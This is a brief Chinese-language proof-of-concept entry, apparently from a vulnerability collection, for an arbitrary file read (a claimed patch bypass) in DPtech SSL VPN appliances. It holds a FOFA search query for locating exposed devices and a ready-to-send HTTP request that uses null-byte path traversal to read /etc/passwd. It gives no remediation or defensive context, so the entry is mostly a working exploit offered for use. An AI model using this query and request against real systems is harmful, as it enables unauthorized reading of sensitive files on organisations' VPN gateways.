 ## 迪普DPTech-VPN任意文件读取(补丁绕过)
杭州迪普科技股份有限公司DPtech SSL VPN存在任意文件读取漏洞，攻击者可利用该漏洞获敏感信息。

## fofa
```javascript
title=="SSL VPN Service" && header="Dptech" || cert="DPtechCa"
```

## poc
```javascript
GET /.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2Fetc%2Fpasswd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```
![image-20241012132203032](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121322100.png)
